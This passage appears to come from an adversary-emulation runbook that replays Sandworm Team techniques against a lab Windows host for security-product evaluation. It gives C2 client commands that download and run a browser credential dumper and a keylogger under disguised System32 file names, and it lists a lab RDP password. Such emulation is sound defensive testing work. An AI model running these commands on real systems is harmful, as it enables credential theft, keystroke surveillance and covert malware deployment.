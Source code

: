 Upload the webCredDumper to gammu over Exaramel-Windows C2 channel (HTTPS / 10.10.0.120:443):

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://10.10.0.120/getFile/dumpWebBrowserCreds.exe C:\\Windows\\System32\\oradump.exe"
```

Execute the webCredDumper; you should see credentials from Chromium.

```bash
# Sandworm Team's CredRaptor tool can collect saved passwords from various internet browsers.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd C:\\Windows\\System32\\oradump.exe"
```

:warning: oradump (LaZagne) can take several minutes to finish executing. Give it 5 minutes... if it hasn't returned by then, the vendor product probably broke it.

[Modified LaZagne](../../Resources/browser-creds/Windows)

Upload keylogger to gammu.

```bash
./evalsC2client.py --set-task Exaramel-Windows "get-file https://10.10.0.120/getFile/keylogger.exe C:\\Windows\\System32\\mslog.exe"
```

Execute the keylogger, logging keystrokes to mslog.txt.

```bash
# Sandworm Team has used a keylogger to capture keystrokes by using the SetWindowsHookEx function.

./evalsC2client.py --set-task Exaramel-Windows "exec-background C:\\Windows\\System32\\mslog.exe -o C:\\Windows\\System32\\mslog.txt"
```

[Keylogger Source Code](../../Resources/keylogger/src/SetWindowsHookEx-Keylogger.cpp)

Now we will exercise the keylogger.

:warning: Switch to the gammu-RDP-session window. 

Open the Windows RDP client on Gammu and *manually* type the following:

```
IP Address:  10.0.1.4
Username:    patreides
Password:    ebqMB7DmM81QVUqpf7XI
```

You must type this data manually to exercise the keylogger (caveat: if you fail to enter the password on the first try, just copy/paste it).

Give arrakis a minute to load, then sign out of the RDP session: `Right-click Windows icon -> Shut down or sign out -> Sign out`

Keep the gammu RDP session open.

:warning: Go back to your control server terminal.

Confirm the keylogger log file exists:
